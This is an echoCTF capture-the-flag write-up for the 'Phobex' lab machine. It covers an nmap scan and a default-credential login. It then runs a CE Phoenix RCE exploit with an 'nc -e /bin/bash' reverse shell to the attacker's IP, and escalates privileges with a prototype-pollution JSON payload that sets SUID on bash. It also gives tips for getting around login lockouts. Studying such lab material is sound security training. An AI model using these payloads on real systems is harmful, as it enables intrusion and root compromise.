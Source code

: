 ```yaml
---
description: >-
  Phobex echoCTF Machine
title: Phobex (Intermediate)                # Add title here
date: 2025-02-24 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Intermediate]                     # Change Templates to Writeup
tags: [Default Credentials, RCE, Prototype Pollution, CE Phoenix]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Phobex.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.231 phobex.echocity-f.com
```

### Content

- Default Credentials
- CE Phoenix 1.0.8.20 Remote Code Execution
- @almela/obx Prototype Pollution

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.231
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.231 ()   Status: Up
Host: 10.0.160.231 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```
Services and Versions running:
```bash
nmap -p22,80 -sCV -n -Pn -vvvv -oN targeted 10.0.160.231
Nmap scan report for 10.0.160.231
Host is up, received user-set (0.17s latency).
Scanned at 2025-02-24 19:56:59 EST for 41s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 bb:8b:4a:b8:d8:62:4d:cb:59:4a:c7:7c:43:0c:7d:42 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIRQzh/YlEJzovVge+51kZ1Mx5xft/0I/1RPWVmuZuJs
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.61 ((Debian))
|_http-title: Echo Phoenix
| http-methods: 
|_  Supported Methods: HEAD POST OPTIONS
|_http-server-header: Apache/2.4.61 (Debian)
```

### Exploitation

There is a Web Service running on port 80 called `CE Phoenix` looking for exploits on it, we identified the following [CE Phoenix 1.0.8.20 Remote Code Execution](https://vulners.com/zdt/1337DAY-ID-39172), but the exploit requires authentication, also the exploit points to the `admin` URI, I then tried to login using Default Credentials, and I got the pair `admin:password123`, once inside I started browsing through the interface while capturing my requests using BurpSuite, I did not identify anything like an administrative console, so I research online and found the following vulnerability [CE Phoenix 1.0.8.20 Remote Code Execution](https://vulners.com/zdt/1337DAY-ID-39172) which is an OS Command Injection vulnerability, after execute the script, we have a way to execute commands:
```bash
python3 exploit.py http://phobex.echocity-f.com/ 'admin' 'password123' 'nc -e /bin/bash 10.10.5.122 1234'

     CE Phoenix v1.0.8.20 - Remote Code Execution

     Author:tmrswrr                                                           

[+] Starting the exploitation process...
[+] Attempting to exploit the target...
[+] Performing login...
[+] Login successful.
[+] Executing the exploit...
[+] Exploit executed successfully.
```

### Privilege Escalation
For the Privilege Escalation I then proceed to execute the command `sudo -l` and I can execute a script as user root without password:
```bash
www-data@phobex:/var/www/html$ sudo -l
Matching Defaults entries for www-data on phobex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on phobex:
    (ALL : ALL) NOPASSWD: /usr/local/bin/obex
```
Its content is like this:
```bash
#! /usr/bin/env node
var args = process.argv.slice(2);
const { exec } = require('child_process');

(async () => {
  const lib = await import('@almela/obx');
  var USER_JSON = JSON.parse(args[0]);
  var user={
    'username': "root"
  };
  try {
    lib.add (user, USER_JSON)
  } catch (e) { }
  var newUser={}
  if(newUser.authenticated==true)
  {
    exec(newUser.command);
  }
})();
```

As usual, the vulnerability relays on the imported library, in this case `@almela/obx`, there is a vulnerability reported as [Prototype Pollution in @almela/obx](https://security.snyk.io/vuln/SNYK-JS-ALMELAOBX-7271947), after reading the article and with the aid of DeepSeek I came with the following payload:
```bash
www-data@phobex:/var/www/html$ sudo /usr/local/bin/obex '{"__proto__":{"authenticated":true,"command":"chmod +s /bin/bash"}}'
www-data@phobex:/var/www/html$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 23  2023 /bin/bash
```
And we ARE INSIDEEEE!!!

### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`

### Credentials

- Credentials identified for CE Phoenix CMS are `admin:password123`

### Notes

-  Always look for admin endpoints, sometimes the webapps have two or more login pages. If the application has a failed user attempt protection, always try to delete the cookies, use another CSRF token or bypass such protection so you are able to perform a dictionary attack, it is important to know how to use Burp Macros for that matter, in this case, this machine took me a lot of time because the credentials `admin:password123` did not worked when I tried to use them, but that was because I was on cool off period for attempting a lot of other default credentials.  

### References

- [CE Phoenix 1.0.8.20 Remote Code Execution](https://vulners.com/zdt/1337DAY-ID-39172)
- [Prototype Pollution in @almela/obx](https://security.snyk.io/vuln/SNYK-JS-ALMELAOBX-7271947)

